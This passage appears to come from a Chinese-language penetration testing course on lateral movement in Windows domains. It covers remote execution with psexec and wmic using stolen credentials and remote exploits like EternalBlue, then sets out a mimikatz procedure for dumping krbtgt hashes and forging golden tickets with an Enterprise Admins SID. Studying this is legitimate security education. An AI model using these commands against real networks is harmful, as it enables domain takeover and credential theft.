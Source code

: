 ```
psexec \\{目标IP} -u {用户名} -p {密码} cmd.exe
```

metasploit 就自带有 psexec 模块，用它可直接连接登录主机。
![Drawing 26.png](https://s0.lgstatic.com/i/image6/M00/02/D0/CioPOWAeEiCAFXs4AAJqKBM7rnw147.png)

图 27 利用 Metasploit psexec 登录主机

- **WMI**

WMI（Windows Management Instrumentation，Windows 管理规范）是由一系列工具组成的，支持本地和远程管理计算机系统，使用命令格式如下：

复制代码

```
wmic /node:{目标IP} /user:{用户名} /password:{密码} process call create "{命令}"
```

![Drawing 27.png](https://s0.lgstatic.com/i/image6/M00/02/D0/CioPOWAeEimAG3tlAAAfUzrGXD0403.png)

图 28 使用 WMI 远程执行命令

#### 3.远程漏洞攻击

如果能找到一个其他主机存在的远程漏洞，借助已攻破的主机发起利用，那么也可以达到横向移动的目的。还记得“永恒之蓝”漏洞吗？一款叫作 WannaCry 的勒索病毒袭击全球，其利用的正是“永恒之蓝”（Windows SMB 远程命令执行漏洞），Metasploit 中已集成该漏洞的利用。

你可以多关注下最新的一些远程漏洞，有时直接利用远程漏洞获得域内其他主机的控制权也是一种快捷的方式。

#### 4.跨域攻击

对于父子域这种双向信息的情况，我们可以利用 SID History 进行跨域攻击，使用命令如下。

- 使用 mimikatz 获取子域的 krbtgt Hash，krbtgt 是域内默认创建的账号，域内每个账号的票据都是由它生成的，只要拿到 krbtgt 的密码 Hash，就可以随意伪造票据，进而使用票据登录域控制器。

复制代码

```
lsadump::lsa /patch
```

- 使用 powerview 获取父子域的 sid：

复制代码

```
Get-DomainComputer -Domain {父域名}

Get-DomainComputer -Domain {子域名}
```

- 利用 mimikatzt 向内存注入票据，添加 SID＝519 企业管理员。

复制代码

```
kerberos::golden /user:Administrator /krbtgt:{第一步获取的hash} /domain:{域名} /sid:{子域sid} /sids:{替换父域sid最后一个值为519} /ptt
```
